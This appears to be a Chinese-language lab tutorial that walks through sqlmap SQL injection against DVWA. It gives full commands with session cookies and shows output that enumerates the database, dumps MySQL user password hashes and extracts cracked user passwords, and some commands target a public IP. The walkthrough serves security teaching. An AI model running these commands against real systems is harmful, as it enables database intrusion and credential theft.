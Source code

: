 ### 常用参数
* --cookie: 设置我们的cookie值“将DVWA安全等级从high设置为low”
* -u: 指定目标URL
* -b: 获取DBMS banner
#### 第一步
* --current-db: 获取当前数据库
* --current-user: 获取当前用户
#### 第二步
* --string: 当查询可用时用来匹配页面中的字符串
* --users: 枚举DBMS用户
* --password: 枚举DBMS用户密码hash
#### 第三步
* --dbs: 枚举DBMS中的数据库
#### 第四步
* --D: 要枚举的DBMS数据库
* --tables: 枚举DBMS数据库中的数据表
#### 第五步
* -T: 要枚举的DBMS数据库表
* --columns: 枚举DBMS数据库表中的所有列
#### 第六步 获取密码 密文 & 明文
* -T: 要枚举的DBMS数据表
* -C: 要枚举的DBMS数据表中的列
* --dump: 转储DBMS数据表项
* SQLmap会提问是否破解密码，按回车确认：

### DVWA 对应于上面六步的操作
将dvwa的安全等级设置为低
进入页面的“SQL Injection”部分，输入任意值并提交,得到
```
http://10.10.10.2/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#
```
#### 使用以下命令来检索当前数据库和当前用户
```
sqlmap.py -u "http://10.10.10.2/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=57p5g7f32b3ffv8l45qppudqn3;security=low" -b –current-db –current-user
```
DBMS : MySQLversion 5.0
OS versionUbuntu 12.04
current user:root
current db :DVWA
#### 检索DBMS的用户和密码
```
sqlmap -u "http://115.28.247.19/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=3ipov6h2puvu6h13baj3co74n1;security=low" --string="Surname" --users --password
```
databasemanagement system users [142]:
[*] ”@’kingasmk’
[*]”@’localhost’
[*]‘debian-sys-maint’@'localhost’
[*]‘phpmyadmin’@'localhost’
[*]‘root’@’127.0.0.1′
[*] ‘root’@'::1′
[*]‘root’@'kingasmk’
[*]‘root’@'localhost’

[*]debian-sys-maint [1]:
password hash:*C30441E06530498BC86019BF3211B94B3BAB295A
[*] phpmyadmin[1]:
password hash:*C30441E06530498BC86019BF3211B94B3BAB295A
[*] root [4]:
password hash: *C30441E06530498BC86019BF3211B94B3BAB295A
password hash:*C30441E06530498BC86019BF3211B94B3BAB295A
password hash:*C30441E06530498BC86019BF3211B94B3BAB295A
password hash:*C30441E06530498BC86019BF3211B94B3BAB295A
* 利用 john 工具将密码破解出来
#### DBMS中的数据库
```
sqlmap -u "http://115.28.247.19/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=3ipov6h2puvu6h13baj3co74n1;security=low" --string="name" --dbs
```
availabledatabases [5]:
[*]dvwa
[*]information_schema
[*]mysql
[*]performance_schema
[*]phpmyadmin
#### 枚举 DVWA 的数据表
```
sqlmap -u "http://115.28.247.19/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=3ipov6h2puvu6h13baj3co74n1;security=low" --string="name" -D dvwa --tables
```
Database: dvwa
[2 tables]
+———-------—+
| guestbook |
| users     |
+———-------—+
#### 获取用户表的列
```
sqlmap -u "http://115.28.247.19/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=3ipov6h2puvu6h13baj3co74n1;security=low" --string="name" -D dvwa -T users --columns
```
Database: dvwa
Table: users
[8 columns]
+--------------+-------------+
| Column       | Type        |
+--------------+-------------+
| user         | varchar(15) |
| avatar       | varchar(70) |
| failed_login | int(3)      |
| first_name   | varchar(15) |
| last_login   | timestamp   |
| last_name    | varchar(15) |
| password     | varchar(32) |
| user_id      | int(6)      |
+--------------+-------------+
#### 获取感兴趣的列的内容
```
sqlmap -u "http://115.28.247.19/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=3ipov6h2puvu6h13baj3co74n1;security=low" --string="name" -D dvwa -T users -C user,passwd --dump
```
Database: dvwa
Table: users
[5 entries]
+---------+---------------------------------------------+
| user    | password                                    |
+---------+---------------------------------------------+
| 1337    | 8d3533d75ae2c3966d7e0d4fcc69216b (charley)  |
| admin   | 5f4dcc3b5aa765d61d8327deb882cf99 (password) |
| gordonb | e99a18c428cb38d5f260853678922e03 (abc123)   |
| pablo   | 0d107d09f5bbe40cade3de5c71e9e9b7 (letmein)  |
| smithy  | 5f4dcc3b5aa765d61d8327deb882cf99 (password) |
+---------+---------------------------------------------+
